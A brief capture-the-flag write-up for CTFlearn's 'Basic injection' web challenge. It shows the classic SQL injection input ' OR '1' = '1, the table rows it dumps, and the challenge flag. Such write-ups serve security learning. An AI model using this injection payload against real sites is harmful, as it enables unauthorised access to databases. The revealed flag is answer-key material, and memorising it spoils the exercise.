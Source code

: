 # Basic injection
[Link to the challenge](https://ctflearn.com/challenge/88)

We need to leak the database using SQL injection in order to get the flag.

## Step 1
I visited the website we are given: https://web.ctflearn.com/web4/
We are asked to submit something.

## Step 2
I tried to inject some SQL: `' OR '1' = '1`.

And got the following output:
```
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```

## Solution
The flag is `CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}`